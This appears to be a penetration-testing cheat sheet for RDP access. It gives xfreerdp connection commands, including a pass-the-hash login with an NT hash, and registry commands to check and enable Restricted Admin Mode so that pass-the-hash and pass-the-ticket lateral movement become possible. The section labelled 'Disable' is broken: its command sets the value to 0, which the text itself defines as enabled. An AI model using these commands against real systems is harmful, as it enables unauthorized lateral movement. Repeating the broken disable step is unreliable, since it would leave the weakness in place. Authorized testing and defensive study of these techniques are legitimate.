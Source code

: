 # Methodology

## Connect

```powershell
# Basic connect
xfreerdp /cert-ignore /u:$USER /p:'$PASSWD' /v:$IP /dynamic-resolution

# QOL options
xfreerdp /cert-ignore /d:$DOMAIN /u:$USER /p:'$PASSWD' /v:$IP /dynamic-resolution /auto-reconnect /clipboard /compression /bpp:8 /audio-mode:0 -window-drag -themes -wallpaper

# Pass the hash (requires Restricted Admin Mode)
xfreerdp /cert-ignore /d:$DOMAIN /u:$USER /pth:$NTHASH /v:$IP /dynamic-resolution /auto-reconnect /clipboard /compression /bpp:8 /audio-mode:0 -window-drag -themes -wallpaper
```

**Note:** `/drive:.,linux` shares the current working directory on your attack box, discoverable via `This PC` in `File Explorer`. Including a share like this can break the connection.

### Restricted Admin Mode

Restricted Admin Mode is a security feature introduced by Microsoft to mitigate the risk of credential theft over RDP connections. When enabled, it performs a network logon rather than an interactive logon, preventing the caching of credentials on the remote system. This mode only applies to administrators, so it cannot be used when you log on to a remote computer with a non-admin account.

Although this mode prevents the caching of credentials, if enabled, it allows the execution of `Pass the Hash` or `Pass the Ticket` for lateral movement.

Confirm using the following command

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin
```

The value of `DisableRestrictedAdmin` indicates the status of `Restricted Admin Mode`:

- If the value is `0`, `Restricted Admin Mode` is enabled.
- If the value is `1`, `Restricted Admin Mode` is disabled.

If the key does not exist it means that is disabled and, we will see the following error message:

```powershell
ERROR: The system was unable to find the specified registry key or value.
```

Enable `Restricted Admin Mode`

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD
```

Disable `Restricted Admin Mode`

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD
```

**Note:** Only members of the Administrators group can abuse `Restricted Admin Mode`.
